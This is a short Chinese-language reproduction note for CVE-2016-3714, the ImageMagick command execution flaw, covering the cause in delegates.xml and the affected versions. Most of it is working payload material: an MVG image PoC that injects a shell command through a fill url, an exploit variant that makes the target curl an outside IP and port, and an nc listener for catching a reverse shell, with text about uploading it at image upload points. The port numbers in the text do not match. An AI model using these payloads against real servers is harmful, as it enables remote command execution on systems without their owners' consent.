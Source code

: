 ```yaml
---
title: "（CVE-2016-3714）ImageMagick 命令执行漏洞"
id: zhfly2968
---
```


# （CVE-2016-3714）ImageMagick 命令执行漏洞

## 一、漏洞简介

/etc/ImageMagick/delegates.xml 将%s，%l加入到command里造成了命令执行

## 二、漏洞影响

ImageMagick 6.5.7-8 2012-08-17(手工测试风险存在)

ImageMagick 6.7.7-10 2014-03-06(手工测试风险存在)

低版本至6.9.3-9 released 2016-04-30

## 三、复现过程

### poc

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://"| command")'
pop graphic-context 
```

图片上传点，抓包，附上exp代码：

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://"| curl 172.16.20.108:8888")'
pop graphic-context 
```

> ip：你要反弹的shell地址，2333端口号，服务器监听反弹shell。

```
nc -lvp ``8888 
```

![image](../img/53c9f04a92f0d08fff065317db5fbac2.png)